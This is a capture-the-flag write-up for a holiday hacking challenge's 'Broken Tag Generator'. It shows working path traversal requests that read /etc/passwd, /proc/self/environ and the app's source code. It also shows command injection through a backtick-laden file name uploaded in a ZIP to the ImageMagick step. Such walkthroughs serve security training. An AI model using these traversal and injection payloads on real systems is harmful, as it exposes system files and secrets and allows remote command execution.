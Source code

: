 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
url https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test/z$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test/z$ rm joergen.zip
rm: cannot remove 'joergen.zip': No such file or directory
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test/z$ zip joergen.zip *.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test/z$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test/z$ sleep 5
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test/z$ curl https://tag-generator.kringlecastle.com/image?id=../../../../../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
HOSTNAME=cbf2810b7573
PORT=4141
HOME=/home/app
BUNDLE_APP_CONFIG=/usr/local/bundle
RUBY_VERSION=2.7.0
RACK_ENV=development
APP_HOME=/app
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOST=0.0.0.0
GEM_HOME=/usr/local/bundle
RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343
PWD=/tmp
BUNDLE_SILENCE_ROOT_WARNING=1

```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwMjM4MTc2MTksMTkzMzM2MTc4NywtMT
Q2NzYxNTI2MiwtMjQzOTQyODY2LDEzMTIwNTY0NTMsOTIwNDU1
ODY1LC0xNjA2MDc4MDQwXX0=
-->